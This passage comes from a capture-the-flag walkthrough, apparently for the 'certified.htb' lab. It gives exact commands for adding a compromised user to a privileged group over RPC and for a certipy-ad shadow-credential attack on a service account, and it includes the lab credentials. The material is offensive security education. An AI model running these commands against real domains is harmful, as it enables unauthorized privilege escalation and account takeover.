 4.  Add **Judith.Mader to the Management group**

> **[INFO: Same Result as in STEP 3, but uses Remote Procedure Call
> (RPC)]{.mark}**
>
> **RUN:** **net rpc group addmem \"Management\" \"judith.mader\" -U
> \"certified.htb\"/\"judith.mader\"%\"judith09\" -S
> \"DC01.certified.htb\"**
>
> ![](images/media/image24.png){width="6.2972222222222225in"
> height="0.9013888888888889in"}

5.  **Check** if User Judith.mader is **member of Management group**

> **INFO:** Password is from User Judith.mader
>
> **RUN:** **net rpc group members \"MANAGEMENT\" -U
> \"certified.htb\"/\"judith.mader\" -S \"certified.htb\"**
>
> ![](images/media/image25.png){width="6.302083333333333in"
> height="0.65625in"}

6.  This command uses **certipy-ad** to perform a **\"shadow credential
    attack\" against the management_svc account** in the certified.htb
    domain, using the credentials of judith.mader

> **Result:** If successful, this **will allow authentication to the
> management_svc account** using a certificate, **without needing the
> accounts password**
>
> **RUN:** **certipy-ad shadow add -u \"judith.mader@certified.htb\" -p
> \'judith09\' -account \"management_svc\" -ns 10.10.11.41**
>
> ![](images/media/image26.png){width="6.2972222222222225in"
> height="0.9791666666666666in"}
